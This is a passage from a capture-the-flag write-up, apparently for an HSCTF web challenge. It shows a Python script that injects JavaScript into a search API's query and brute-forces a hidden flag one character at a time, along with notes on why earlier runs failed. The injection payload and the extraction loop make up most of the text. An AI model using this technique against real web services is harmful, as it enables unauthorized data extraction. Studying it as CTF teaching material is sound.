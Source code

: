 ```'); this.challenge.includes('```, interpreted as ```this.challenge.includes(''); this.challenge.includes('')``` by the program. The output is what we expected and desired, which is to return all results (like a ```' OR 1=1```). 
                search = f"kj'); this.flag.includes('{flag + c}') && this.challenge.includes('flag"
                payload = '{"search": "%s"}' % (search)
                print("connecting to CTF platform...")
                r = requests.post(url, data = payload, headers=headers, timeout=10)
                #print(payload)
                result = json.loads(r.text)
                print(result["results"])
                if bool(result["results"]):
                    print("Found one more char : %s" % (flag+c))
                    flag += c
        except:
            continue
```


### Final payload

```python
import requests
import urllib3
import string
import json
urllib3.disable_warnings()

url = "http://flag-shop.hsctf.com/api/search"
headers={'content-type': 'application/json'}
flag = "flag{"
search = f"kj'); this.flag.includes('{flag}') && this.challenge.includes('flag"


while True:
    for c in string.printable:
        try:
            if c not in ['*','+','.','?','|','&','$', '"', "'", "\\", "|", "/"]:
                search = f"kj'); this.flag.includes('{flag + c}') && this.challenge.includes('flag"
                payload = '{"search": "%s"}' % (search)
                r = requests.post(url, data = payload, headers=headers, timeout=10)
                result = json.loads(r.text)

                if bool(result["results"]):
                    print("Found one more char : %s" % (flag+c))
                    flag += c
                    
        except:
            continue
```

As you can see, the only difference is that the first payload has more ```print``` statements.

This is because, due to the nature of the challenge and the fact that many others were also brute-forcing, the infrastructure became unresponsive for a few seconds, causing exceptions or blocking the request indefinitely.
